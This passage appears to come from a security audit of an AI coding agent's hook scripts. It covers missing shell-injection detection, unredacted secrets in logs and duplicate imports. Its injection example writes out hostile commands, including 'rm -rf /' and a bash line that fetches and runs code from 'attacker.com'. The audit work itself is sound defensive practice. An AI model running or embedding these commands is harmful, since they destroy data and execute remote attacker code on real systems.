 
### 3. Command Injection Detection in `pre_tool_use.py`
**Risk Level**: CRITICAL
**Issue**: Missing detection for shell injection patterns

```bash
# Not detected but dangerous:
sh -c "rm -rf /"
bash -c "$(curl attacker.com)"
eval "malicious code"
$(curl attacker.com)
```

**Fix**:
- Add patterns for: `sh -c`, `bash -c`, `eval`, `$(...)`, `` `...` ``
- Add pipe and redirect detection

---

### 4. Log File Secret Exposure in `log_events.py`
**Risk Level**: CRITICAL
**Issue**: Full commands logged without sanitization

```json
{
  "timestamp": "2025-10-29T10:00:00",
  "tool": "Bash",
  "tool_input": {
    "command": "curl -H 'Authorization: Bearer sk_live_abc123...'"
  }
}
```

**Fix**:
- Sanitize known secret keys before logging
- Implement redaction for API keys, tokens, passwords
- Add `LAZYDEV_LOG_SANITIZE=1` option

---

## High Priority Issues

### 5. Duplicate Imports
**Files Affected**: `session_start.py`, `user_prompt_submit.py`, `pre_tool_use.py`, `post_tool_use_format.py`, `stop.py`

```python
import os  # Line 21
import os  # Line 22 (DUPLICATE)
```

**Fix**: Remove duplicate imports

---
